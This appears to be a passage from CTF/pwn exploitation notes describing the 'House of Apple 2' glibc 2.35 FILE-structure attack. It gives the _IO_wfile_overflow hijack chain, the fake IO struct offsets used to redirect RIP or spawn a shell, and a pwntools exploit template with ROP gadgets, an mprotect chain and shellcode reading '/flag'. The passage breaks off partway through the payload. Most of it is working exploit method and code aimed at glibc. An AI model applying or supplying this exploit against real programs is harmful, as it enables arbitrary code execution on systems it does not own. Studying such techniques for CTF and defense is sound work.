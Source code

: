 


## House of Apple 2

**House analysis**: [link](https://www.roderickchan.cn/zh-cn/house-of-apple-%E4%B8%80%E7%A7%8D%E6%96%B0%E7%9A%84glibc%E4%B8%ADio%E6%94%BB%E5%87%BB%E6%96%B9%E6%B3%95-2/#%E5%88%A9%E7%94%A8%E5%8E%9F%E7%90%86) by author *Roderick*.

**IO structs offset**: [link](https://github.com/4xura/Axura-pwn-exp/blob/master/IO%20Structs/IO%20structs.md).

**EXP template**: [link](https://github.com/4xura/Axura-pwn-exp/blob/master/xpl.py).

### HIJACK | _IO_wfile_overflow

**Attack Chain**:

```
_IO_wfile_overflow
    _IO_wdoallocbuf
        _IO_WDOALLOCATE
            *(fp->_wide_data->_wide_vtable + 0x68)(fp)
```

**Fake IO Deployment**:

- `_flags`: `~(2 | 0x8 | 0x800)`; Or simply `0` if we don't care `rdi`; Set  `'  sh;'` for getting shell.
- `vtable`:  `_IO_wfile_jumps`, `_IO_wfile_jumps_mmap` or `_IO_wfile_jumps_maybe_mmap`.
- `_wide_data`: Heap address `A` in our control, namely `*(fp+0xa0)=A`.
- `_wide_data->_IO_write_base`: `0`, namely `*(A+0x18)=0`.
- `_wide_data->_IO_buf_base`: `0`，namely `*(A+0x30)=0`.
- `_wide_data->_wide_vtable`: Heap address `B` in our control, namely `*(A+0xe0)=B`.
- `_wide_data->_wide_vtable->doallocate`: Starting function/gadget `C`  to hijack `RIP`, namely `*(B+0x68)=C`.

#### GG | setcontext

**Version**: GLIBC 2.35

```python
# Gadgets
_IO_list_all    = libc_base + libc.sym['_IO_list_all']
_IO_wfile_jumps = libc_base + libc.sym['_IO_wfile_jumps']
setcontext      = libc_base + libc.sym['setcontext'] + 61
mprotect        = libc_base + libc.sym['mprotect']

rop 	        = ROP(libc)
p_rdi_r         = libc_base + rop.find_gadget(['pop rdi', 'ret'])[0]
p_rsi_r         = libc_base + rop.find_gadget(['pop rsi', 'ret'])[0]
p_rdx_rbx_r     = libc_base + rop.find_gadget(['pop rdx', 'pop rbx', 'ret'])[0]
leave_r	        = libc_base + rop.find_gadget(['leave', 'ret'])[0]
ret             = libc_base + rop.find_gadget(['ret'])[0]
pa(_IO_list_all)
pa(_IO_wfile_jumps)
pa(setcontext)

fakeIO_addr    = 0xdeadbeef
mprotect_chain = [p_rdi_r, fakeIO_addr&(~0xfff), p_rsi_r, 0x4000, \
                  p_rdx_rbx_r, 7, 0, mprotect, fakeIO_addr+0x140]	# 0x48 bytes
orw_chain      = asm(shellcraft.cat('/flag'))	# 0x23 bytes
pa(fakeIO_addr)

pl = flat({
    # fake_IO  
    0: {  
        0x0:  0,	# _flag
```